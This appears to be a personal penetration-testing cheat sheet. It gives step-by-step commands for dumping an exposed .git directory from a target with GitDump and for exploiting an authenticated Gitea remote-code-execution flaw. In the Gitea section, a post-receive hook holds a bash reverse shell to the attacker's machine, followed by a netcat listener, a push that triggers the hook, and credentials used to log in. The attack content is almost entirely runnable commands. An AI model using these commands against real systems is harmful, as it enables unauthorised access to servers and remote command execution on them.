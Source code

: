 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://pentestbook.six2dez.com/enumeration/webservices/github

```bash - kali
git clone https://github.com/Ebryx/GitDump
```

```bash - kali
cd GitDump
```

```bash - kali
python3 git-dump.py http://$TARGET/.git/
```

```bash - kali
cd output && git checkout -- .
```

```bash - kali
git log
```

#### Gitea

https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/


sign in > Create new repository (shelly) > Settings > Git Hooks > post-receive

```bash - Gitea
#!/bin/bash
bash -i >& /dev/tcp/$KALI/3000 0>&1 &
```

```bash - kali
touch README.md
```

```bash - kali
git init
```

```bash - kali
git add README.md
```

```bash - kali
git commit -m "Initial commit"
```

```bash - kali
git remote add origin http://$TARGET:3000/admin1/shelly.git
```

```bash - kali
sudo rlwrap -cAr nc -lvnp 3000
```

```bash - kali
git push -u origin master
```

```bash - kali
admin1
```

```bash - kali
adminadmin
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
